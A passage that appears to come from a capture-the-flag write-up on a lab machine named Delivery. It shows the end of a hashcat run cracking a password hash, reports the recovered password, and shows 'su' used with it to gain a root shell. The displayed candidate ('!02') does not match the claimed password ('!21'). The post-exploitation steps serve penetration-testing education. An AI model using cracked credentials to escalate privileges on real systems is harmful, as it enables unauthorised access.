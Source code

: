 ```bash
Candidates.#1....: PleaseSubscribe!02 -> PleaseSubscribs
Hardware.Mon.#1..: Util: 35%

Started: Thu Dec  5 14:24:55 2024
Stopped: Thu Dec  5 14:25:00 2024
```

It successfully cracked the hash.
The cracked password is : `PleaseSubscribe!21`

Let's test it using `su`.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# whoami
root
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got root!